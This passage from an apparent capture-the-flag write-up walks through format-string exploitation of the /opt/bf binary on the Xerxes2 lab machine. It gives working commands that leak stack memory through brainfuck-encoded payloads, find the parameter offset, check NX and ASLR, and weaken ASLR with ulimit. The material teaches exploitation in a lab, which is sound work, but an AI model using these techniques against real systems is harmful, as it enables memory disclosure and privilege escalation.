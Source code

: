 ```bash /opt/bf format string testing
delacroix@xerxes2:~$ /opt/bf "$(python -c 'print ">".join(["+" * ord(x) for x in ("AAAA" + ".%x" * 20 + "\n")])')#"
AAAA.b777bff4.0.0.bf842d58.b779b9c0.40.112a.bf83b820.b777bff4.bf842d58.80486eb.bf843860.bf83b820.7530.0.41414141.2e78252e.252e7825.78252e78.2e78252e
```

Here we are using the previously built brainfk payload generator, and giving it format strings, searching for the `AAAA` input we have given it. Instead of typing like 20 `%s`, I just use python to do the hard work for me. As you can see, the string `41414141` is present in the output. We can test if we are able to use direct parameter access to access just the string we want:

```bash /opt/bf format string direct parameter access
delacroix@xerxes2:~$ /opt/bf "$(python -c 'print ">".join(["+" * ord(x) for x in ("AAAA" + ".%16$x" "\n")])')#"
AAAA.41414141
```

Yup! Parameter 16 gives us what we need :)

Great. Were making progress... I think.

For the sake of time, I am not going to document the 412643932471236 attempts that were made at getting this to work. Instead, here is the path that did eventually work. This is the part of Xerxes2 that undoubtedly took me the longest to get right.

###/opt/bf - part3
Now that we know where we can start manipulating pointers, we need to find out _what_ we should manipulate. There are many options here, however your decision on which path to take is influenced by many vectors.

First of all, `/opt/bf` was compiled with the NX bit:

```bash /opt/bf RW Only stack
delacroix@xerxes2:~$ readelf -l /opt/bf | grep STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4
```

Secondly, ASLR is enabled, and can be seen when printing the shared library dependencies. The memory positions are different for every check:

```bash ASLR check on /opt/bf
delacroix@xerxes2:~$ ldd /opt/bf
    linux-gate.so.1 =>  (0xb7734000)
    libc.so.6 => /lib/i386-linux-gnu/i686/cmov/libc.so.6 (0xb75c9000)
    /lib/ld-linux.so.2 (0xb7735000)
delacroix@xerxes2:~$ ldd /opt/bf
    linux-gate.so.1 =>  (0xb779b000)
    libc.so.6 => /lib/i386-linux-gnu/i686/cmov/libc.so.6 (0xb7630000)
    /lib/ld-linux.so.2 (0xb779c000)
delacroix@xerxes2:~$ ldd /opt/bf
    linux-gate.so.1 =>  (0xb77c0000)
    libc.so.6 => /lib/i386-linux-gnu/i686/cmov/libc.so.6 (0xb7655000)
    /lib/ld-linux.so.2 (0xb77c1000)
delacroix@xerxes2:~$
```

Thankfully, since this is a x86 (32bit) OS, its quite trivial to disable this (sort of) with `ulimit -s unlimited`
